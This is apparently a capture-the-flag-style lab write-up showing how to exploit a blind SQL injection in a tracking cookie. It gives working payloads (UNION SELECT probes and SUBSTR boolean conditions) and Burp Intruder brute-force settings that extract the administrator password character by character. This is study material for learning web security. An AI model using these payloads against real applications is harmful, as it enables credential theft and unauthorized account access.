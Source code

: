  The database contains a different table called **users**, with columns called **username** and **password**. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.
Hint

You can assume that the password only contains lowercase, alphanumeric characters.

telltale:
<div>Welcome back!</div>

1. determine how many coloumns are in the current table: 
**request1:**
> GET /filter?category=Gifts HTTP/1.1
> Cookie: TrackingId='+UNION+SELECT+NULL+FROM+information_schema.tables--+-; session=QyM6Jg8mPkrezSg7cNC6sZtiLeiZ9WBB

response:
> HTTP/1.1 200 OK
> <div>Welcome back!</div>

*only 1 field is present

2. check if we get a valid value if we try to fetch the **password** fo **administrator**
**resquest**
>GET /filter?category=Gifts HTTP/1.1
>Cookie: TrackingId=UnfSjZLVTySz9bjf'+UNION+SELECT+password+FROM+users+WHERE+username='administrator'--+-; session=8PQPruKN79S6L97lF9Oqc1L2PhzKjbNe
response:
<div>Welcome back!</div>

3. lets introduce a SUBSTR:
> 'and substr((select password from users where username='administrator'),1,1)!='a --+-
**request:**
> GET /filter?category=Gifts HTTP/1.1
> Cookie: TrackingId=APote5KnCQfDegMa'and substr((select password from users where username='administrator'),1,1)!='a --+-; session=WBUniANtlYbYDetaTEjQXoK9fOoi2KZV

response:
> <div>Welcome back!</div>

observe when condition changes to **= 'a'** we dont get the telltail response
 
we need to iterate via intruder or via code.

1. for Code see:
> /SQLi - SQL Injection/Lab_ Blind SQL injection with conditional responses.py

2. intruder:
send request to **Intruder** and choose **Cluster Bomb**. in payload use *numbers* to 1-30 as payload 1 and *brute force* use {a-z0-9} 
> GET /filter?category=Gifts HTTP/1.1
> Cookie: TrackingId=APote5KnCQfDegMa'+AND+SUBSTR((SELECT+password+FROM+users+WHERE+username+%3d+'administrator'),+§{pass_index}§,+1)+=+'§{char}§; session=WBUniANtlYbYDetaTEjQXoK9fOoi2KZV

in response observe most response have length of *6891* while about only few have *6952* length.
send those **requests** to comparer and copy the char value the yeilded the response (payload 2) to the specified charecter lovation in the password (payload 1)
(a lot of wotk - coding is better...)
